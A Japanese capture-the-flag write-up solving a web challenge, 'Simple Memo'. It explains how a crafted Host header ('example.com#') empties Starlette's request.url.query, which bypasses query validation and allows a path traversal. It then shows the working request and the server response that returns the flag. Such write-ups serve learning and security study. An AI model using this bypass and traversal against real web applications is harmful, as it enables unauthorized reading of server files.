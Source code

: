 ```python title="index.py"
        f = open(path, 'r')
        contents = f.readlines()
        f.close()

        context['filename'] = filename
        context['contents'] = contents

    except:
        pass

    return templates.TemplateResponse('/view/view.html', context)
```

`/view`のエンドポイントで、`path`の値が`./memo/flag`相当のパスになるようなリクエストを送れたらフラグファイルが見れる。ただし、クエリのバリデーションがあるせいで簡単にはpath traversalができないようになっている。

バリデーションに`request.url.query`と`request.query_params`の2種類を使っているのが怪しい。

`request.url.query`の実装を見てみると、`HOST`ヘッダを参照してURLを解釈していることがわかった:

- `request.host`: https://github.com/encode/starlette/blob/0.16.0/starlette/requests.py#L88
    - `URL`クラスを使用している。
- `URL`クラス: https://github.com/encode/starlette/blob/0.16.0/starlette/datastructures.py#L31-L47
    - 一度URLをパースしたあと、`HOST`ヘッダが存在すればその値にホストを書き換えてURLを再構成し、再びパースする。

よって、リクエストに`Host: example.com#`のヘッダを付けるとURLのドメイン以降がすべてフラグメントとして解釈されて`request.url.query`が空文字列になる。

一方で、`request.query_params`は`HOST`ヘッダに左右されないのでこの実装の差異を用いてbypassが可能。あとはpath traversalをするだけ。


### 攻撃

以下のようなリクエストを投げるとOK。

```sh
$ http "http://34.146.195.115/view?9dd4e461268c8034f5c8564e155c67a6=flag&%2F.." Host:"example.com#"
HTTP/1.1 200 OK
content-length: 683
content-type: text/html; charset=utf-8
date: Sat, 26 Mar 2022 18:07:05 GMT
server: uvicorn

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <script type="text/javascript" src="/memo.js"></script>
    <script type="text/javascript" src="/jquery.min.js"></script>
    <link rel="stylesheet" type="text/css" href="/static/memo.css">

    <title>Simple Memo</title>
</head>
<body>
    <div class="main">
        <p>
            <span>flag</span><br/>
            <input type="button" id="memo-button" value="BACK" onclick="history.back()"/><br/>
            <span id="memo-box">


                    LINECTF{The_old_bug_on_urllib_parse_qsl_fixed}

            </span>
        </p>
    </div>
</body>
</html>
```

[^bb-1]: 結局この問題では使えなかったが、名前は聞いたことがあったが中身を知らなかった有名脆弱性だったので丁度よい勉強になった。
[^bb-2]: 日本はシェル芸が活発な界隈（？）があるので、資料が豊富でいいですね。この手の問題は日本人が有利かも。